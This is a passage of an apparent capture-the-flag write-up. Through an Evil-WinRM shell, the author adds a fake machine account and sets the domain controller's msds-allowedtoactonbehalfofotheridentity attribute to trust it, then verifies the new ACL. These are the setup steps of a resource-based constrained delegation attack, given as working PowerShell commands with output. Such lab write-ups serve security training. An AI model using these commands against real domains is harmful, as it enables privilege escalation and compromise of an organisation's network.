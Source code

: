     *Evil-WinRM* PS C:\programdata> New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
    [+] Machine account 0xdfFakeComputer added
    

I need the SID of the computer object as well, so I’ll save it in a variable:

    
    
    *Evil-WinRM* PS C:\programdata> $fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
    *Evil-WinRM* PS C:\programdata> $fakesid
    S-1-5-21-1677581083-3380853377-188903654-1121
    

#### Attack

Now I’ll configure the DC to trust my fake computer to make authorization
decisions on it’s behalf. These commands will create an ACL with the fake
computer’s SID and assign that to the DC:

    
    
    *Evil-WinRM* PS C:\programdata> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
    *Evil-WinRM* PS C:\programdata> $SDBytes = New-Object byte[] ($SD.BinaryLength)
    *Evil-WinRM* PS C:\programdata> $SD.GetBinaryForm($SDBytes, 0)
    *Evil-WinRM* PS C:\programdata> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
    

I’ll verify it worked:

    
    
    *Evil-WinRM* PS C:\programdata> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
    *Evil-WinRM* PS C:\programdata> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
    *Evil-WinRM* PS C:\programdata> $Descriptor.DiscretionaryAcl
    
    
    BinaryLength       : 36
    AceQualifier       : AccessAllowed
    IsCallback         : False
    OpaqueLength       : 0
    AccessMask         : 983551
    SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-1121
    AceType            : AccessAllowed
    AceFlags           : None
    IsInherited        : False
    InheritanceFlags   : None
    PropagationFlags   : None
    AuditFlags         : None
    

There is an ACL with the `SecurityIdentifier` of my fake computer and it says
`AccessAllowed`.

I can also re-run Bloodhound now:
